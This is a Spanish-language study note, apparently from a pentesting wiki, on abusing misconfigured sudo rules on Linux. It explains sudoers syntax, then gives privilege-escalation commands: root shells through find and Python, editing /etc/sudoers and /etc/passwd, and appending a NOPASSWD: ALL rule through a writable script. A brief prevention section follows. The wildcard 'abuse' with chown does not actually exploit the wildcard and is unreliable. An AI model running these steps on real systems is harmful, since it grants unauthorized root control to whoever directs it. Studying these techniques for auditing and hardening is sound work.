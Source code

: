 
## ¿Qué es Sudo?

Sudo (SuperUser DO) es un programa diseñado para sistemas Unix/Linux que permite a los usuarios ejecutar programas con los privilegios de seguridad de otro usuario, normalmente el superusuario (root).

## Configuración de Sudo

Los privilegios de sudo se configuran en el archivo `/etc/sudoers` o en archivos dentro del directorio `/etc/sudoers.d/`. Esta configuración determina quién puede usar sudo y qué comandos pueden ejecutar.

### Sintaxis Básica del Archivo Sudoers

```bash
usuario ALL=(ALL) NOPASSWD: comando
```

Donde:
- `usuario`: El nombre del usuario que tiene permisos.
- `ALL`: El host en el que se aplica la regla (normalmente `ALL`).
- `(ALL)`: El usuario al que se cambiará (normalmente `ALL` para root).
- `NOPASSWD:`: Indica que no se requiere contraseña para ejecutar el comando.
- `comando`: El comando específico que el usuario puede ejecutar.

```bash
usuario ALL=(root) NOPASSWD: /usr/bin/apt-get
```

## Posibles Vectores de Abuso

> Se usa mucho [[GTFOBins]]
### 1. Ejecución de Comandos Específicos

**Ejemplo:** Supongamos que un usuario tiene permiso para ejecutar un comando específico como root:

```
usuario ALL=(ALL) NOPASSWD: /usr/bin/find
```

**Abuso:**
```bash
# El usuario puede usar 'find' para ejecutar comandos arbitrarios
sudo find / -exec /bin/bash \;
```

Este comando inicia una shell con privilegios de root.

### 2. Permisos de Edición de Archivos Sensibles

**Ejemplo:** El usuario puede editar cualquier archivo:

```
usuario ALL=(ALL) NOPASSWD: /usr/bin/vim
```

**Abuso:**
```bash
# Editar el archivo sudoers para otorgarse más privilegios
sudo vim /etc/sudoers

# O añadir un usuario al archivo passwd
sudo vim /etc/passwd
```

### 3. Wildcards en la Configuración

**Ejemplo:** Configuración con wildcards:

```
usuario ALL=(ALL) NOPASSWD: /bin/chown * /home/usuario/archivo
```

**Abuso:**
```bash
# Usar el wildcard para ejecutar comandos adicionales
sudo chown root --reference=/etc/passwd /home/usuario/archivo
```

### 4. Comandos que Pueden Lanzar Shells

**Ejemplo:** Usuario con permiso para usar programas que pueden lanzar shells:

```
usuario ALL=(ALL) NOPASSWD: /usr/bin/python
```

**Abuso:**
```bash
# Lanzar una shell con privilegios de root mediante Python
sudo python -c 'import os; os.system("/bin/bash")'
```

### 5. Permisos de Sudo sin Contraseña

**Ejemplo:** Configuración NOPASSWD para todos los comandos:

```
usuario ALL=(ALL) NOPASSWD: ALL
```

**Abuso:**
```bash
# El usuario puede ejecutar cualquier comando como root sin contraseña
sudo su -
```

## Cómo Detectar y Prevenir estos Abusos

1. **Revisión Regular**: Auditar regularmente el archivo sudoers.
2. **Principio de Privilegio Mínimo**: Otorgar solo los privilegios necesarios.
3. **Evitar Wildcards**: No usar comodines en la configuración de sudo.
4. **Monitoreo**: Implementar sistemas de monitoreo para detectar abusos.
5. **Usar sudoreplay**: Para auditar las sesiones de sudo.

## Comandos Útiles para Verificar Configuración

```bash
# Ver tus permisos sudo
sudo -l

# Verificar la sintaxis del archivo sudoers
visudo -c

# Ver quién tiene privilegios sudo en el sistema
grep -r "ALL=(ALL)" /etc/sudoers /etc/sudoers.d/
```

## Ejemplo Práctico de Escalada de Privilegios

Supongamos que tienes permisos para ejecutar un script como root:

```
usuario ALL=(ALL) NOPASSWD: /scripts/backup.sh
```

Si puedes editar este script, podrías:

```bash
# Añadir al final del script
echo 'echo "usuario ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' >> /scripts/backup.sh

# Ejecutar el script con sudo
sudo /scripts/backup.sh

# Ahora tienes acceso completo a sudo
sudo su
```

Recuerda: La seguridad del sistema depende de una configuración adecuada de sudo.

---

[[Escalada de Privilegios]]